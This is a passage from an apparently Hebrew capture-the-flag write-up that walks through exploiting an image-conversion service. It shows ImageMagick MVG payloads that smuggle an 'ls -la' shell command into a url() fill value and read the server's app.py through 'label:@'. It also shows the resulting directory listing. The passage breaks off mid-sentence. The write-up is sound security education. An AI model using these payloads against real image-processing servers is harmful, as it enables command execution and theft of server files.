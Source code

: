```svg
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|ls -la>/tmp/e1.txt;")'
pop graphic-context
```

<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>האתר מסכים לקבל את
הקובץ הזה, ומציע להוריד חזרה את התוצאה בכתובת </span><span class=MsoHyperlink><span
lang=EN-US><a
href="http://challenges.owaspil.ctf.today:8090/uploads/tmpdmalOL.png"><span
dir=LTR>http://challenges.owaspil.ctf.today:8090/uploads/tmpdmalOL.png</span></a></span></span><span
dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'><span
dir=RTL></span>.</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>מדובר בקובץ תמונה
ריק (תמונה לבנה). למרבה המזל, אם ננסה לגשת ל-</span><span lang=EN-US dir=LTR>e1.txt</span><span
dir=RTL></span><span lang=EN-US style='font-family:"Arial",sans-serif'><span
dir=RTL></span> </span><span lang=HE style='font-family:"Arial",sans-serif'>(שיצרנו
באמצעות החולשה) מתוך תיקיית </span><span lang=EN-US dir=LTR>uploads</span><span
dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'><span
dir=RTL></span>, נקבל את התוכן שרצינו:</span></p>

```
total 20
dr-xr-xr-x 1 root root 4096 Aug 29 13:52 .
drwxr-xr-x 1 root root 4096 Aug 29 13:52 ..
-r-xr-xr-x 1 root root 3663 Aug 27 10:40 app.py
-r-xr-xr-x 1 root root   14 Aug 27 10:40 requirements.txt
dr-xr-xr-x 1 root root 4096 Aug 29 13:52 templates
```

<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>כעת ניתן לקרוא את
הקובץ </span><span lang=EN-US dir=LTR>app.py</span><span dir=RTL></span><span
lang=HE style='font-family:"Arial",sans-serif'><span dir=RTL></span>, למשל, </span><span
lang=HE style='font-family:"Arial",sans-serif'>בעזרת פקודה אחרת:</span></p>

```svg
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'label:@app.py'
pop graphic-context
```

<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>התוצאה:</span></p>
<p class=MsoNormal align=center dir=RTL style='text-align:center;direction:
rtl;unicode-bidi:embed'><span lang=en-IL dir=LTR><img border=0 width=425
height=319 id="Picture 26" src="images/image027.jpg"
alt="http://challenges.owaspil.ctf.today:8090/uploads/tmpxuig5e.png"></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>(זוהי לא תמונת מסך,
אלא התמונה עצמה שנוצרה מתהליך ההמרה! הטקסט מוטמע בתמונה על ידי השרת. בפועל,
התמונה קטנה מדי בשביל להכיל את כל הקוד של </span><span lang=EN-US dir=LTR>app.py</span><span
dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'><span